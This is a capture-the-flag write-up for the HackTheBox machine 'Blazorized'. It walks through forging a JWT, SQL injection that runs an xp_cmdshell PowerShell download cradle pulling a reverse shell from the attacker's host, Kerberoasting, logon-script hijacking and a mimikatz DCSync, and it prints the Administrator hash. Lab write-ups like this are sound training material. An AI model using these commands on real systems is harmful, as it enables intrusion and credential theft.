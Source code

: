 # Blazorized Machine Writeup

At the moment of making this write up this box is my favorite, that is why I am choosing to make it my first write up. Any tips or critiques will be of most delight

Starting the box with an ip of 10.10.11.22

First step, nmap 

![nmap](https://github.com/user-attachments/assets/d062b7f2-b6ae-46b7-887c-62eaeb930468)

We see port 80 is open and redirecting to blazorized.htb

Adding that to our /etc/hosts we can access the page

![site](https://github.com/user-attachments/assets/83cd1caa-56d2-4595-9fc5-4ac2a186a939)


At first nothing interesting, only at the bottom we find the site was made with blazor. This implies the existence of dll files that can be decompiled. 

But first let's run a ffuf for subdomains


![ffuf](https://github.com/user-attachments/assets/8cdb5877-bda3-4ccc-97e9-0f125d50860a)


We get a hit on admin.blazorized.htb, adding it to /etc/hosts we find a login page

Now it's a good idea to take a look at the dll files and what info they can give, so to access the admin panel and continue from there

Taking a look at the files that begin with Blazorized we see an interesting file only generated in the check_update endpoint

![helpers](https://github.com/user-attachments/assets/d74904a2-67ea-4b1d-9028-e5180c200abb)

Dowloading it with

```
curl http://blazorized.htb/Blazorized.Helpers.dll -o Blazorized.Helpers.dll
```

Next step is to decompile it

## If you want to learn some more watch the following video

[https://www.youtube.com/watch?v=Xx1eMlscXrQ&t=536](https://www.youtube.com/watch?v=Xx1eMlscXrQ)

### Continuing the Write up

To send it over to my windows box I did

```
sudo impacket-smbserver -smb2support share $(pwd)
```

and the hit my kali local ip with Win+R, after that you can open powershell and run ildasm

On the decompiled dll file we can find this:

![decompiled](https://github.com/user-attachments/assets/7a3948ee-cd9e-4a75-a11f-cf233c0a9d95)


With this information we can create a jwt and use it to log in the admin panel.

I left the python script I used in this repo name generate_token.py

Adding it to the browser local storage and refreshing the admin page will get you in

On the admin page the check duplicate page suffers from sql injection 

![sqlinjection](https://github.com/user-attachments/assets/ed84284f-ef61-4bb0-92ca-ab02a57b08dc)

Using this we can get a shell

I used nishang's Invoke-PowershellTcpOneline.ps1 and did a web cradle with

```
IEX(New-Object Net.WebClient).downloadString('http://<your_ip>:8000/shell.ps1')
```
I then encoded the cradle in base64 with 

```
cat cradle | iconv -t utf-16le | base64 -w0
```

And sent the following on the admin panel

```
Foxer'; EXEC xp_cmdshell 'powershell -enc <base63_cradle>'; -- -
```

This gets us a shell as nu_1055
![first_shell](https://github.com/user-attachments/assets/462b5a12-177d-4f29-87b5-90106c5e16d2)


This user already has the user flag

![user_flag](https://github.com/user-attachments/assets/60ebf0af-8869-40a2-921a-47a2b92b3894)


## Shell as nu_1055

First let's run Sharphound and get some data 
After running sharphound stand a smbserver and grab the zip file
Taking a look at nu_1055 we see he has WriteSPN permissions on rsa_4810


![bloodhound1](https://github.com/user-attachments/assets/ce2c378f-add4-47a1-808c-62cf5d15ba89)

We'll need to add PowerView to the box with
```
IEX(New-Object Net.WebClient).downloadString('http://<your_ip>:8000/PowerView.ps1')
```

Using bloodhound's suggested windows abuse, we can do the following commands

```
Set-DomainObject -Identity rsa_4810 -SET @{serviceprincipalname='foxer/writeup'}
Invoke-Kerberoast
```

![rsa_4810_hash](https://github.com/user-attachments/assets/057cc587-4543-4dd1-b223-c70b884f87d0)

And as you can see we get a hash

Cracking it we get rsa_4810s password and we can winrm with it

![rsa_4810_pass](https://github.com/user-attachments/assets/8a2d1bd0-a26d-4447-9d61-5bc6e7812933)

## Shell as rsa_4810

After accessing the user it get's a bit harder since bloodhound doesn't really give us any direct ideas, however looking at the Users directorie we see there's only user ssa_6010 remaining, apart from Administratr

However we can do the following
```
Find-InterestingDomainAcl | ConvertTo-Json
```
Looking for SSA_6010 we can see that rsa_4810 can change the script path for user ssa_6010

![script_path](https://github.com/user-attachments/assets/9e229c76-6a6e-4110-8f47-ffaf643f9ddc)

So we can change a script path, now we need only figure out what directory we can write to

Using accesschk64 we find out it's
```
Windows\SYSVOL\domain\scripts\A32FF3AEAA23
```
Let's make a file that catches our cradle, so do 
```
echo "powershell - enc <base64_cradle>" | Out-File -Filepath fox.bat -Encoding ASCII
Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\fox.bat'
```
Open a listener and a web server to cat the shell.ps1 file and we get a shell as ssa_6010


![ssa_6010_shell](https://github.com/user-attachments/assets/bcc46b27-db42-4831-be1e-e5b7e4f9701e)
## Shell as ssa_6010
Finally, looking at bloodhound we see ssa_6010 can perform a DCSynv attack on the domain

We can do this with mimikatz and get the Administrator hash

```
.\mimikatz.exe "lsadump::dcsync /domain:blazorized.htb /user:administrator" exit
```

![admin_hash](https://github.com/user-attachments/assets/bb8a4b2c-ae33-428e-a932-5148cb2bcb62)

f55ed1465179ba374ec1cad05b34a5f3 is the admins hash

Using winrm we cat get root.txt

### Thanks to ippsecs video on the box

